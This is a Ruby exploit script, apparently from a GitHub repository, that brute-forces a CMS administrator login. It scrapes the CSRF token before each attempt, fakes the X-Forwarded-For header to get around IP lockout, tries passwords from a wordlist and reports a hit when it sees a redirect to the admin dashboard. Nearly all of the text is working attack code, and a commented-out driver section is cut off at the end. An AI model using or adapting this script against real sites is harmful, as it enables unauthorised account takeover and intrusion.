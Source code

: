   # -- Exploit code -- #
  # dirty workaround to remove this warning:
#   Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Trying password: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Password found: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e